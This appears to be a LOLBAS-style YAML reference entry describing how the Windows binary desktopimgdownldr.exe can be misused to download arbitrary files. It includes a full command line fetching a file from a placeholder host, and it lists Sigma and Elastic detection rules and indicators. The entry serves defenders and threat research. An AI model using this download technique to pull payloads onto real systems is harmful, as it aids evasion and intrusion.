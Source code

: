 ```yaml
---
Name: Desktopimgdownldr.exe
Description: Windows binary used to configure lockscreen/desktop image
Author: Gal Kristal
Created: 2020-06-28
Commands:
  - Command: set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
    Description: Downloads the file and sets it as the computer's lockscreen
    Usecase: Download arbitrary files from a web server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\desktopimgdownldr.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_desktopimgdownldr_susp_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/file/file_event/file_event_win_susp_desktopimgdownldr_file.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/command_and_control_remote_file_copy_desktopimgdownldr.toml
  - IOC: desktopimgdownldr.exe that creates non-image file
  - IOC: Change of HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP\LockScreenImageUrl
Resources:
  - Link: https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/
Acknowledgement:
  - Person: Gal Kristal
    Handle: '@gal_kristal'
---
```

